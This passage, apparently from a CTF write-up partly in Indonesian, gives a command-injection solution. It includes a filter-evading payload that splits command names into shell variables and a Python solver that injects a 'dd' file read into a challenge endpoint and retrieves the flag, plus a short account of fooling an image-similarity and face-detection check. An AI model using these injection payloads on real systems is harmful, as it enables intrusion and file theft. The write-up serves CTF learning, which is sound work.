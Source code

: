 ls payload: `a=l;b=s; $a$b /`
solver
```python
#!/usr/bin/env python3
import requests
import time
import datetime
import binascii

BASE_URL = "http://chall-ctf.ara-its.id:12124"

payload = {
    "input": "a=t;b=xt;dd if=/555fa546f50f3e869c7d1d5669ef280a.$a$b bs=1"
}

session = requests.Session()

r = session.post(BASE_URL + "/get_quotes", data=payload)
if r.status_code != 200:
    print("post fail")
    exit(1)


now_str = datetime.datetime.now().strftime('%Y%m%d%H%M')
hex_now = binascii.hexlify(now_str.encode()).decode()
filename = f"{hex_now}.txt"
file_url = BASE_URL + "/generated_quotes/" + filename
print(f"{filename}")


for i in range(10):
    r_file = session.get(file_url)
    if r_file.status_code == 200 and r_file.text.strip() != "":
        print(r_file.text.strip())
        break
    time.sleep(0.1)
else:
    print("eror")
```
`ARA6{Raden_Banter_is_SPEEEEEEEED_SUIIIIIIIIII} `

## AI?
### ilynaga
GA TAU, INI CHALL APAAN SIH
![{AC51F5BC-5298-45E7-B4EA-11A44E7CD32A}](https://hackmd.io/_uploads/BkHKKkLYke.png)

POKOKNYA INTINYA INI
`return success if ssim_value>=0.96 and predicted_class == 'True' else fail`

SSIM_VALUE ITU NILAI DARI GAMBAR MAS-MASNYA, PREDICTED_CLASS POKOKNYA YG PENTING GAMBAR MUKA AI-NYA KEDETECT. ANJRIT 3 JAM GUA OBRAK ABRIK PAKE PAINT
